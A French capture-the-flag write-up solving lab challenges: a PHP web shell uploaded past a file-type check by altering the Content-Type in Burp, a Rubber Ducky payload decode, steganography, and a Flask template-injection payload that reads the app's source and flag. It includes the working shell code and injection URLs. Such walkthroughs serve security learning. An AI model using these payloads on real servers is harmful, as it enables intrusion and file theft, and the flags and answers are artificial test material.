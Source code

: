 # Secu
## 1 . Upload_medium

### A. 
Il faut tout d'abord créer un fichier en `.php` comme par exemple, `payload.php`.
Ce dossier devra contenir les lignes suivantes :
```
<?php
echo shell_exec($_GET['cmd']);
?>*
```
Ensuite, avant de l'upload, nous utiliserons une extension de navigateur comme par exemple Foxy proxy et le logiciel Burp afin de pouvoir changer le fichier envoyé.
Grace a burp, nous devons modifier la ligne :
`Content-Type: application/octet-stream`
par :
`Content-Type: image/png`
Il faut ensuite appuyer sur forward dans Burp.
et enfin désactiver notre proxy.

### B.
On arrive sur la partie délicate, il faut ouvrir le fichier étant apparu sur la page.
Grace au php, nous avons accès au cmd depuis le lien du site, il suffit de le modifier un peu:
`http://ctf-labo.cyber-stuff.net/upload_medium/uploads/test.php?cmd=`

donc il suffit de mettre:
`ls` qui permet de lire le dossier
`%20` qui place des espaces
`-la` qui permet de voir les fichiers cachés
`../` qui permet de revenir en arrière

dans un vrai cmd, la commande nous donnerais:
`ls -la ../../`
et parmis les fichiers, nous voyeons un dossier qui s'appelle `.flag`

ensuite, nous remplaçons `ls -la` (ls%20-la) par `cat%20` et on rajoute a la fin le nom du fichier, se qui nous ouvre le fichier avec le flag a l'intérieur

`http://ctf-labo.cyber-stuff.net/upload_medium/uploads/test.php?cmd=cat%20../../.flag`




## 2 . The DSI's yellow usb key

Le rubber ducky hack, est donc un fichier intégré a une clef USB qui tape des commandes a notre place, ce qui permet de rapidement pirater une session laissée ouverte.

Donc une fois le fichier donné téléchargé, il faut d'abord le décomprésser (comme Winrar ou 7-zip)

et vous optenez un fichier `.dd`

Sous mac, il suffit d'entrer la commande 
`hdiutil attach -imagekey diskimage-class=CRawDiskImage dump.dd`
se qui nous donne un fichier `inject.bin`
et ensuite, nous utilisons un site afin de décoder le fichier inject.bin : 
`https://ducktoolkit.com/decoder/`

le decodage nous donne l'adresse d'un fichier exe qui est en faite un .txt contenant le flag


## 3 . I Lowe runnig

Cette fois si, c'est plutôt simple, il suffit de télécharger l'image et de l'upload sur ce site : 
`https://incoherency.co.uk/image-steganography/#unhide`
L'image contenait un texte caché étant donc le flag.

## 4 . Find Patrick's password
ALEX LE BOSS


## 5 . Disrupt me

On écrit nimporte quoi après le lien, exemple :   `http://ctf-labo.cyber-stuff.net/disrupt-me/hydtjtcj` 

Cela va afficher le message :   `Sorry, flask is not ready to be disrupted !`

Ce message indique que le site utilise du flask

Donc sur internet on a trouvé un petit tuto

`https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections`

<img src="images/image.png" alt="Soluce" title="Soluce">

et donc il faut suivre ça si selon ça marche ou non(avec 2/3 modifs), se qui nous a donné :

`http://ctf-labo.cyber-stuff.net/disrupt-me/disrupt?pass=%7B%7B%20%27%27.__class__.__mro__[2].__subclasses__()[40](%27app.py%27).read()%20%7D%7D`

Dans cette commande on demande a lire un fichier se qui nous donne 
`background image*/ background-repeat:no-repeat;/*we want to have one single image not a repeated one*/ background-size:cover;/*this sets the image to fullscreen covering the whole screen*/ } h1 {color:yellow} .container { height: 100%; display: flex; justify-content: center;align-items: center;} </style> </head> <body>''' footer = '''</body></html>''' @app.route('/') def start(): template = ''' <div id="toDisrupt" class="container" > <div> <h1>Enter the secret word that only true disruptor know !</h1> <form class='form-inline' method="GET" action="/disrupt-me/disrupt"> <div class="row"> <div class="col-md-6"> <input class="form-control" type="text" name="pass"/> </div> <div class="col-md-6"> <button type="submit" class="btn btn-primary btn-block">Disrupt !</button> </div> </div> </form> </div> </div> </div>''' return render_template_string(headerBase+template+footer) @app.route('/disrupt') def hello_ssti(): if request.args.get('pass'): inp = request.args.get('pass') if inp == "Y-flag{T3mpl4te-INj3C7i0n-4r3-34sY-WH3n-1nPu7-4ren't-5aN17iZ3d-PropeRlY!}": template = ''' <div class="container" id="disrupte"> <div> <h1><b>Yeah ! You are a true disruptor ! The flag is the secret word.</b></h1> </div> </div>''' return render_template_string(headerDisrupt+template+footer) else: template = ''' <div class="container" id="disrupte"> <div> <h1><b>%s is not the correct disruptive word ! </b></h1> </div> </div>''' % inp return render_template_string(headerDisrupt+template+footer, inp=inp) else: template = ''' <div class="container" id="disrupt"> <div> <h1><b>_blank_ is not the correct disruptive word ! </b></h1> </div> </div>''' return render_template_string(headerDisrupt+template+footer) @app.errorhandler(404) def notFound(e): template='<div class"container"><div><center><h2>Sorry, flask is not ready to be disrupted !</h2></center></div></div>' return render_template_string(headerBase+template+footer) @app.errorhandler(500) def notFound_(e): template='<div class"container"><div><center><h2>Sorry, flask is not ready to be disrupted !</h2></center></div></div>' return render_template_string(headerBase+template+footer) if __name__ == "__main__": app.run(host='0.0.0.0',debug=False) is not the correct disruptive word !`

et caché au milieu de tout cela nous trouvons : `T3mpl4te-INj3C7i0n-4r3-34sY-WH3n-1nPu7-4ren't-5aN17iZ3d-PropeRlY!` étant le flag